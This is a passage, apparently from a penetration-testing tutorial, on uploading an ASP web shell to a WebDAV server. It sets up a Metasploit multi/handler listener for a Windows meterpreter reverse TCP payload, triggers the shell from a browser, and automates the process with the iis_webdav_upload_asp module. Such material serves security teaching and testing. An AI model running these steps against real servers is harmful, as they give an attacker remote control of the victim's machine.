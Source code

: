 Example:
```
dav:/webdav/> put /root/shell.asp
```

### Setup a listener for the payload using the multi/handler module

We'll need to setup a handler that would wait for the connection from the payload which the `multi/handler` module can be used for.

1. **Start Postgresql and Metasploit** 
```
service postgresql start && msfconsole
```

2. **Use the module**
```
msf6> use multi/handler
```

3. **Configure the module:** Set the configured payload to the one set from msfvenom. For this example, we used `windows/meterpreter/reverse_tcp`. Next, we'll need to set the `LHOST`/`LPORT` to the same one specified in the payload:

```
msf6> set payload windows/meterpreter/reverse_tcp

msf6> set LHOST 10.15.12.2

msf6> set LPORT 1234
```
4. **Run the module**: This will start the listener. When the payload is executed on the target it will connect back here.

```
msf6> run
```

5. **Execute the Payload :**  Navigate to that  file location in the WebDav directory that the payload was uploaded to from the browser. So, if it was uploaded to `/uploads/` you'd visit `http://targetsite.com/uploads/shell.asp` from the browser, click on the file to trigger the script. This should start meterpreter session.


## Automate the process using MSF Modules

We can use the `exploit/windows/iis/iis_webdav_upload_asp` module to upload a meterpreter asp file onto the webdav server which would automate the payload creation/upload process to get a meterpreter session.

1. First, we can search for `iis upload` or just use the module: 
```
search iis upload
```

```
use exploit/windows/iis/iis_webdav_upload_asp
```
